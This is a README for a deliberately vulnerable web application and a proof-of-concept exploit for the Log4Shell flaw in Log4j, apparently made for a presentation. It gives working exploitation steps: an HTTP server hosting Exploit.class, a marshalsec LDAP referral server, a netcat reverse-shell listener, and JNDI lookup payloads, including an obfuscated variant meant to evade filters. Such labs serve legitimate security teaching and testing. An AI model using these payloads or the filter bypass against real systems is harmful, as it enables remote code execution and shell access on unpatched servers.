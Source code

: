 # Log4Shell Vulnerable Web Application and Proof of Concept:

This is an example vulnerable application and proof-of-concept (POC) exploit of Log4Shell.

**Special thanks to**

1. marshalsec from [mbechler](https://github.com/mbechler/marshalsec)
2. Vulnerable Web App from [kozmer](https://github.com/kozmer/log4j-shell-poc). We have modified it to match the content of the presentation.

## Running the application (Only works on Linux hosts, not supported on Docker for Mac/Windows)

Pull and run it

```
docker pull tdane/researches:log4shell_vuln-app
docker run --network host tdane/researches:log4shell_vuln_app

# Now you can access vuln app at http://localhost:8080
```

Build it yourself (you don't need any Java-related tooling):

```
docker build . -t vuln-app
docker run --network host vuln-app
```

## Exploitation steps

### 1. Start HTTP server at port 8000 that contains Exploit.class

```
cd httpServer
python -m SimpleHTTPServer 8000
```

### 2. Start LDAP server with marshalsec

```
cd ../marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://localhost:8000/#Exploit"
```

### 3. Setup a netcat listener for reverse shell connection

```
# Default port for reverse shell is 4444, you can change it at Exploit.java

nc -lnvp 4444
```

### 4. Send payload to vuln web

```
${jndi:ldap://localhost:1389/Exploit}
```

In case it has been filtered:

```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://localhost:1389/Exploit}
```

Ref: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words

